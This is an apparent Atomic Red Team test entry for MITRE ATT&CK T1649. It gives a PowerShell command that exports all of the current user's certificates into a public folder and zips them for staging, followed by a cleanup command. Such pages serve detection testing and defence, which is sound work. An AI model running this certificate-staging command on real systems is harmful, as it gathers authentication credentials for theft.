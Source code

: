 ```yaml
---
tags: [T1649, atomic_test]
filename: "[[T1649 - Steal or Forge Authentication Certificates]]"
---
```

# T1649 - Steal or Forge Authentication Certificates

## Atomic Test #1 - Staging Local Certificates via Export-Certificate
Export all user certificates and add to a compressed archive.

**Supported Platforms:** Windows


**auto_generated_guid:** eb121494-82d1-4148-9e2b-e624e03fbf3d






#### Attack Commands: Run with `powershell`! 


```powershell
$archive="$env:PUBLIC\T1649\atomic_certs.zip"
$exfilpath="$env:PUBLIC\T1649\certs"
Add-Type -assembly "system.io.compression.filesystem"
Remove-Item $(split-path $exfilpath) -Recurse -Force -ErrorAction Ignore
mkdir $exfilpath | Out-Null
foreach ($cert in (gci Cert:\CurrentUser\My)) { Export-Certificate -Cert $cert -FilePath $exfilpath\$($cert.FriendlyName).cer}
[io.compression.zipfile]::CreateFromDirectory($exfilpath, $archive)
```

#### Cleanup Commands:
```powershell
$exfilpath="$env:PUBLIC\T1649\certs"
Remove-Item $(split-path $exfilpath) -Recurse -Force -ErrorAction Ignore
```





<br/>
